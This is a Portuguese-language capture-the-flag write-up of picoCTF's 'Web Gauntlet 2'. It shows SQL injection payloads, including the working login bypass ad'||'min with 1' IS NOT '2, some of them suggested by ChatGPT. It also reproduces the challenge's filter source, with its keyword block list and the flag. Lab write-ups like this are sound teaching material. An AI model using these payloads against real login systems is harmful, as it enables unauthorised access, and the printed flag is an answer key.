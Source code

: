 # Gauntlet 2
###### Resolvido por @BrunoCuba 
> Este é um CTF sobre [Tipo de Vulnerabilidade 1, Tipo de Vulnerabilidade 2 e Tipo de Vulnerabilidade 3]  

## Sobre o Desafio  
This website looks familiar...  

**Objetivo:** Log in as admin Site:  

## 🔗 Links do Desafio
- [Gauntlet_2](https://play.picoctf.org/practice/challenge/174)
- [Acesse o site](http://mercury.picoctf.net:21336/)  
- [Página de filtragem](http://mercury.picoctf.net:21336/filter.php)  

Boa sorte! 🔥  

## Solução  

Ao acessar o site com a segunda questão, percebi que ela seria quase igual ao web Gauntlet 1, por ter o mesmo esquema de uma página de Login e Senha.

![image](https://github.com/user-attachments/assets/286fe1ca-4336-46bd-80ef-d882e5392d3d)

Depois, acessei o `filter.php`, que no primeiro exercício mostrava quais eram os filtros para não usar no comando da Query. No caso deste exercício, os filtros são:

![image](https://github.com/user-attachments/assets/d59a122f-447c-4c72-a41b-3b0f023db98f)

Minhas primeiras tentativas incluíram buscar no ChatGPT por algumas alternativas, e ele me deu o seguinte comando:

```sql
LOGIN: admin' AND 1=1 AND (SELECT name FROM sqlite_master WHERE type='table') --  
SENHA: qualquer coisa
```

Porém, essa tentativa não foi favorável, pois o site tem um filtro de tamanho de caracteres também:

![image](https://github.com/user-attachments/assets/ae16e14f-c01e-477c-9b32-bec59c104f81)

Depois disso, pedi ao GPT para me passar todos os comandos do SQLite:

```sql
SELECT
FROM
WHERE
AND
OR
NOT
INSERT INTO
UPDATE
DELETE
CREATE TABLE
DROP TABLE
ALTER TABLE
JOIN
UNION
GROUP BY
HAVING
ORDER BY
LIMIT
DISTINCT
LIKE
IN
BETWEEN
IS NULL
IS NOT NULL
EXISTS
CASE
=
<
<=
<>
!=
IS TRUE
IS FALSE
IS NOT TRUE
IS NOT FALSE
IS
char()
hex()
substr()
length()
count()
sum()
avg()
min()
max()
lower()
upper()
random()
```

Com todas essas opções, comecei a tentar diferentes comandos de forma que o valor fosse positivo e nenhum filtro fosse barrado, mas nenhuma ideia funcionou. Pedi ajuda ao GPT novamente, e ele sugeriu tentar comparar dois números diferentes com o `IS NOT` para que o valor fosse `TRUE`, permitindo que a lógica no SQLite me desse acesso ao site.

Minha primeira tentativa foi:

```sql
LOGIN: 'qualquer coisa'
SENHA: 1' IS NOT '2
```

![image](https://github.com/user-attachments/assets/3e517e79-1815-433c-b75d-a382d167db5b)

![image](https://github.com/user-attachments/assets/fdbf8787-3af3-4c71-ac97-5ee47694a88e)

Eu percebi que não adiantaria tentar entrar com outro usuário, então voltei ao Web Gauntlet 1 para ver como o login do admin funcionava e tentar burlar o filtro.

No campo de LOGIN, eu precisava usar: `ad'||'min`, e então tentei novamente no campo de SENHA: `1' IS NOT '2`.

Com isso, consegui realizar o login no site.

![image](https://github.com/user-attachments/assets/1f2b11fe-7eae-40e4-b8dd-779e79cd8a86)  

![image](https://github.com/user-attachments/assets/5d4ccf40-2239-47dc-b20e-9391161df011)

Depois, acessei o `filter.php`, que me apresentou o seguinte código:

```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}
?>  
```

> Assim, obtemos a flag `picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`  
